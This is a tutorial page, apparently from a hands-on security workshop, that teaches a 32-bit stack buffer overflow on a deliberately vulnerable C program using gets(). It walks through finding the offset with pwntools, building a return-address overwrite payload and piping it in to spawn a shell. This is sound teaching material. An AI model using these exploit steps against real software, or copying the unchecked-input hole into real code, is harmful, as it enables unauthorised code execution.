

# Buffer Overflow: Practice

1. Consider the following *vulnerable* code

    ```c
    #include <stdio.h>
    #include <stdlib.h>

    void win() {
        system("/bin/sh");
    }

    void vuln() {
        char buffer[64];
        gets(buffer);
    }

    int main() {
        // Disable input and output buffering
        setvbuf(stdout, NULL, _IONBF, 0);
        setvbuf(stdin, NULL, _IONBF, 0);

        puts("Guess my name");
        vuln();
        puts("Wrong!");

        return 0;
    }
    ```

1. As explained previously, the local array `buffer` will be placed on the stack (assuming 32-bit memory addressing and 1-byte chars).

    

1. Problem: `gets` function doesn't do bounds checking
    - A regular user may enter more data than the buffer can handle
        - This will effectively overwrite the values for `saved_ebp` and `ret_addr`.
        - The `ret` instruction will then redirect the `eip` to whatever address specified in the overwritten `ret_addr`, which will typically crash the program
    - A malicious user may carefully redirect program execution to a shellcode.
        - This can give them control of the machine where the binary is executed.
        - On a local machine, this doesn't seem critical, but if the binary is hosted on a remote machine, this exploit may provide Remote Code Execution (RCE).
        - Furthermore, if the binary has the `setuid` bit, the obtained shell will have `root` access, providing means for privilege escalation.

1. Goal: to craft a payload that carefully overwrites the `ret_addr` to jump to the `win` function after `vuln` is executed.

## Practice

1. A precompiled 32-bit binary of the above code is provided (the binary is compiled with flags `-m32 -fno-stack-protector -z execstack` to make exploitation possible)

    ```bash
    wget http://renderer:10082/workshop/content/sample
    sudo chmod +x ./sample
    ```

1. Before going further, it helps to check some security features of the binary (install the tool first with `apt`)

    ```bash
    checksec sample
    ```

1. Debug the binary in GDB, provide some small test input.

    ```bash
    gdb -q sample
    run
    ```

1. For a large enough input, we can overwrite the stack. To determine padding length, we can use [`pwn.cyclic`](https://docs.pwntools.com/en/stable/commandline.html#pwn-cyclic) from [pwntools](https://github.com/Gallopsled/pwntools) to generate a 100-character [De Brujin Sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence) (notice how any substring of length `n=4` doesn't repeat)

    ```bash
    sudo apt install python3-pwntools
    pwn cyclic 100
    ```

1. Provide the cyclic string as an input to the program in `gdb` and inspect the `EIP` value as the program crashes. GDB should generally show something like this when the target address is invalid

    ```text
    Program received signal SIGSEGV, Segmentation fault.
    0xdeadbeef in ?? ()
    ```

1. Lookup the value to understand the padding length (`L`) after which the `ret_addr` starts to get overwritten.

    ```shell
    pwn cyclic -l <addr>
    ```

1. Construct the payload: `L` characters to fill the buffer, followed by a little-endian representation of the `ret_addr` to jump to. Here are two ways to construct a payload that jumps to `0xfee1dead`.

    ```shell
    echo -en 'AAAAAA...AAAAAAA\xad\xde\xe1\xfe' > payload
    ```

    ```shell
    python3 -c "import sys; sys.stdout.buffer.write(N * b'\x41' + b'\xad\xde\xe1\xfe')" > payload
    ```

1. We can get the address of the target function in `gdb` with `disas win` or by inspecting the symbol table

    ```bash
    readelf -s sample | grep win
    ```

1. Run the payload to get a shell (the `-` is needed to keep the pipe open after the payload is executed to enable interaction with the shell).

    ```bash
    cat payload - | ./sample
    ```

> **Note**: when supplying the payload in gdb like `run < payload`, you may get a message like `[Detaching after vfork from child process NNNN]`: this is because gdb won't track both parent and child processes. It's common to test payloads in GDB, but run the exploit outside or from Python.
